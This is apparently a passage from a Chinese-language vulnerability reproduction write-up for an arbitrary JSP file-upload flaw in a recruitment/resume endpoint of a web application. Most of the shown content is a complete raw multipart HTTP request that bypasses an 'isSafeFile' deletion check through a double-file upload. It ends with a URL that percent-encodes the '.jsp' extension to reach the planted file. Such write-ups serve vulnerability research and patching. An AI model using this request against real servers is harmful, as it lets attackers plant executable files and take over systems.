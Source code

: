 主要需要绕过`isSafeFile` 函数删除jsp文件，可通过双文件上传绕过

## 漏洞复现

```java
POST /wxclient/app/recruit/resume/addResume?fileElementId=H HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 361
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5Mawpg068t7pbxZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1.jsp"

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="222.jsp"

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ--
```
![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408081318839.png)

从文件监控中，通过双文件上传，成功创建了两个文件`1.jsp 222.jsp` ，只有1.jsp成功上传漏洞，222.jsp被删除了

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408081319517.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408081320499.png)

访问：`http://127.0.0.1:8088/upload/202408/RE/1.js%70`

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408081321656.png)

